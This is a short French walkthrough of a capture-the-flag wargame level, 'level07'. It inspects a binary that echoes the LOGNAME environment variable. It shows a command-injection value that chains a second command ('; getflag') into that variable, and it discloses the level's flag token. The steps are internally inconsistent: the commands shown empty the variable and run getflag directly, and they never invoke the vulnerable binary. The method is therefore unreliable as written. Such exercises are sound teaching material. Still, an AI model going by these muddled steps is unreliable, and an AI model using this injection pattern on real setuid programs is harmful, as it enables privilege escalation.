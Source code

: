 # level07

1) Fichier binaire `level07` à la racine :

```bash
./level07
```

2) Analyse du binaire :

```bash
strings level07
```

Une ligne retient notre attention :

```bash
/bin/echo %s 
```

Le script affiche donc une variable qui se nomme `level07`. Nous allons grep toutes les variables d'environnement qui se nomment `level07`, et deux sont retenues :

```bash
USER=level07
LOGNAME=level07
```

3) Exploitation : renommer `LOGNAME` pour échapper `echo` et chaîner `getflag`.

```bash
LOGNAME=; getflag
```

4) Exécution : lancer `./level07` afin d'exécuter la commande `echo` prévue, puis `; getflag`.

```bash
echo $LOGNAME; getflag
```

5) Token découvert :

Le token est `fiumuikeil55xe9cu4dood66h`.
